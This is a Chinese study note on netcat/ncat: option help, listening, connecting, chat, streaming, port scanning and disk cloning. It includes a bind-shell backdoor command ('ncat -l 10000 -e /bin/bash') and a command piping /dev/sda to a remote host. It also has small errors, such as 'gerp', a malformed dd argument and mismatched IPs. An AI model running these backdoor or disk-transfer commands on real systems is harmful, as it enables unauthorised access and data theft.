# 学习学习学习,说三遍
## 今天学习了ncat的基本用法,列上笔记
### 小知识1,转换为base64编码:
```sh
base64
输入要转换的字符
CTRL+D
```
即可转换成功!
### 小知识2,对结果进行限制:
##### 例如  </b>
```
netstat -an | gerp x
```

输出的结果中只显示x存在的信息


---
### 正文
> nc 是一款类似于cat的工具,但是是用在网络中,拥有多种功能的CLI工具,可以在网络上读写以及重定向数据.他被设计成可以被脚本或者其他程序调用的可靠的后端工具.同时由于他能**创建任意所需的连接**,因此也是个很好的网络调试工具

既是一个**端口扫描工具，也是一款安全工具，还能是一款监测工具**，甚至可以做为一个简单的 TCP 代理。 由于有这么多的功能，它被誉为是网络界的瑞士军刀。 这是每个系统管理员都应该知道并且掌握它。

---

ncat --help  查找帮助
>   -4      强制nc只能使用IPv4地址。<br>
    -6      强制nc只能使用IPv6地址。<br>
    -D      在socket上开启debugging功能<br>
    -d      不从标准输入中读取任何消息<br>
    -h      帮助选项<br>
    -i interval<br>
            在文本行之间的发送或接受，指定一个延迟时间间隔。 也会产生多个端口间的连接有延迟时间。<br>
    -k      <br>
            强制nc保持监听其他连接，在它当前的连接完成之后。 如果和-l选项一起使用，会有错误。<br>
    -l      <br>
            通常用来指定nc监听，而不是创建一个连接到远程主机。 如果不与-p, -s或者-z选项一起使用的话，会有错误。<br>另外，如果用-w指定超时选项的
            话,会被忽略。<br>
    -n      <br>
            不使用DNS或者服务不做任何地址，主机名或者端口的查询<br>
    -p source_port<br>
            指定nc使用的源端口，来服从权限约束和授权。与-l选项一起使用会产生错误。<br>
    -r       指定源 和/或目的端口是随机选择的，而不是系统按照一个范围或者顺序          <br>
    -S      开启RFC 2385 TCP MD5签名选项。<br>
    -s source_ip_address    指定发送包的IP接口，与-l选项使用会有错误。<br>
    -T ToS  为连接指定IP的服务类型(ToS)。有效的值是令牌“lowdelay”, “throughput”, “reliability”, 或者以“0x”开头的8位的十六进制值。<br>
    -C      发送CRLF做为行尾符<br>
    -t     让nc发送RFC 854 不要和将不要响应RFC 854要或者将要的请求。这使得nc可以脚本化telnet会话过程。<br>
    -U      使用Unix Domain Sockets<br>
    -u      使用UDP替代默认的TCP选项<br>
    -v      详细信息输出模式<br>
    -w timeout  如果连接和标准输入空闲时间超过了超时时间（单位秒），那么连接就被静默关闭。<br>-w标志对-l选项没影响，比如nc将要永久监听一个连接             ，使用或者不使用-w标志都可以。默认是没有超时的。<br>
    -X proxy_version<br>                        
            与代理服务器交互时的请求，nc必须使用指定的协议。支持的协议是“4” (SOCKS v.4), “5” (SOCKS v.5)和“connect” (HTTPS proxy)。 如果协议不指定，SOCKS版本5将被使用。<br>
    -x proxy_address[:port]<br>
             请求时，nc必须连接一个使用代理地址和端口的代理做为主机名。如果端口没有被指定，那么众所周知的端口将为代理协议所使用（1080 for SOCKS, 3128 for HTTPS）<br>
    -z  指定nc只是扫描监听进程，不发送任何数据给它们。与-l选项一起使用会有错误<br>

---

#### 举例1:
***-l选项***
通过 -l选项,可以进入监听模式,使我们可以在指定端口监听入站链接
完整命令如下:
```
nc -l port_number 
```
例如
```
nc -l 8080
```
服务器就开始监听8080端口
使用CTRL+C中断

#### 举例2:
***利用nc命令来连接远程系统***

```
nc IP_address Port_number
```

#### 举例3:
***连接UDP端口***
默认情况下 nc创建链接只会使用TCP端口,但是通过-u选项来连接UDP端口
```
nc -l -u 1234
```

#### 举例4:
nc 命令还可以用来在系统中创建后门，并且这种技术被黑客大量使用。 为了保护我们的系统，我们需要知道它是怎么做的。
创建后门的命令为：
```
ncat -l 10000 -e /bin/bash
```
-e 标志将一个 bash 与端口 10000 相连。<br>
现在客户端只要连接到服务器上的 10000 端口就能通过 bash 获取我们系统的完整访问权限：<br>
```
ncat 192.168.1.100 10000
```

#### 举例5:
***-c***进行端口转发
```
nc -u -l 80 -c 'nc -u -l 8080'   //尚未实现
```
#### 利用nc 进行模拟聊天
在被监听的机器（ip：10.0.2.15）上打开侦听端口 333
```
nc -lp 333
```
另一台监听机器（同一台也可以） 输入
```
nc -nv 10.2.2.15 333
```
如果系统提示
```
(UNKNOWN) [10.0.2.15] 333 (?) open
```
则表明可以正常进行  在任意机器上输入文字即可将文字输出到两个机器


#### 利用nc进行流媒体服务
在一个机器上存在文件 1.mp4 ,cat 1.mp4后进行重定向， 将其放端口333上
```
cat 1.mp4 | nc -lp 333
```

在另一台机器上 进行接受
```
nc -nv 10.2.2.15 333 | mplayer -vo x11 -cache 3000 -
```
即可接收并播放媒体文件

#### 利用nc进行端口扫描   可靠性比较低 
```
nc -nvz 1.1.1.1 1-65535   # 扫描1.1.1.1 的 1到65535端口开放状态(TCP)
```
``` 
nc -nvzu 1.1.1.1 1-65535   # 扫描1.1.1.1 的 1到65535端口的开放状态（UDP）
```

#### 利用nc进行硬盘远程克隆
```
nc -lp 333| dd of/dev/sda  #接受端
```
```
dd if=/dev/sda |nc -nv 1.1.1.1 333 -q 1  发送端 -q 1表示如果发送成功后 1秒后关闭  
```
